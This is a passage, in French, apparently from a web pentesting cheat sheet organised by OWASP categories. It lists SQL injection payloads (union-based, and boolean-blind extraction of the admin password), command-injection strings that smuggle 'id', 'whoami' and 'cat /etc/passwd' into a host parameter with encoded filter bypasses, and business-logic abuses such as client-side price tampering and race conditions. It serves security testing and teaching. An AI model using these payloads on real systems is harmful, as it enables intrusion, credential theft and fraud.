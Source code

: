 **Union-based SQL Injection**
```sql
-- Déterminer le nombre de colonnes
http://app-test.exemple.local/product.php?id=1' ORDER BY 1--
http://app-test.exemple.local/product.php?id=1' ORDER BY 2--
http://app-test.exemple.local/product.php?id=1' ORDER BY 10--

-- Union SELECT
http://app-test.exemple.local/product.php?id=1' UNION SELECT 1,2,3,4--
http://app-test.exemple.local/product.php?id=1' UNION SELECT null,null,null,null--

-- Extraction de données
http://app-test.exemple.local/product.php?id=1' UNION SELECT user(),database(),version(),4--
http://app-test.exemple.local/product.php?id=1' UNION SELECT table_name,null,null,null FROM information_schema.tables--
```

**Boolean-based Blind SQLi**
```sql
-- Tests conditionnels
login.php?id=1' AND (SELECT SUBSTRING(user(),1,1)='r')--
login.php?id=1' AND (SELECT COUNT(*) FROM users)=1--
login.php?id=1' AND ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1))>100--
```

#### **Command Injection**
```bash
# Tests de base
ping.php?host=127.0.0.1; id
ping.php?host=127.0.0.1 && whoami
ping.php?host=127.0.0.1 | cat /etc/passwd
ping.php?host=127.0.0.1 `id`
ping.php?host=127.0.0.1 $(whoami)

# Bypass de filtres
ping.php?host=127.0.0.1%0aid
ping.php?host=127.0.0.1%3Bid
ping.php?host=127.0.0.1%26%26id
```

### **A04:2021 - Insecure Design**

#### **Logique métier défaillante**
```bash
# Bypass de workflow
# 1. Ajouter article au panier prix 100€
# 2. Appliquer code promo -50%
# 3. Modifier prix côté client à 1€
# 4. Valider commande

# Race conditions
# Transfert de 1000€ simultané vers 2 comptes
# Si pas de lock = double débit
```

